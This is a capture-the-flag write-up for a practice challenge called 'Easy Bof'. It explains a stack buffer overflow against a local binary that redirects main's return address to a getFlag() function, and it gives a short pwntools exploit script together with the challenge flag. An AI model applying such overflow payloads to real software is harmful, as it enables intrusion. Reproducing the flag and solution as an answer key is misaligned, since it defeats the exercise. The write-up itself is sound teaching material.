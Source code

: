 # Easy Bof

### 📄 Description
This time, you cannot patch the binary and you 
need to exploit a vulnerability in the code.

Additionally, we do not provide the code but you can know that:
```c
char buff[16];
```

Try to use gdb and understand the behavior of the program.

Also here, flag in clear but please report every step in the write-up!

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

Considering the description, that gives us the dimensions of the buffer, we concur that we must perform a buffer overflow.

We can see that the buffer is 16 char wide and that there's a `getFlag()` function that we might want to execute, so the return address of `main()` must be overwritten with the address of `getFlag()`.

We can use gdb to see the dimensions of the stack in order to undestand how much "padding" to send to write the `getFlag()` address in the correct place, which is 24 bytes.

```python
import pwn

p = pwn.process("./easy_bof")
elf = pwn.ELF("./easy_bof")

p.sendline(b"A"*(16+24)+pwn.p64(elf.symbols["getFlag"]))
p.interactive()
```

<h3> 🚩 Flag </h3>

```plain
spritz{bof_for_fun_and_profit?}
```
</details>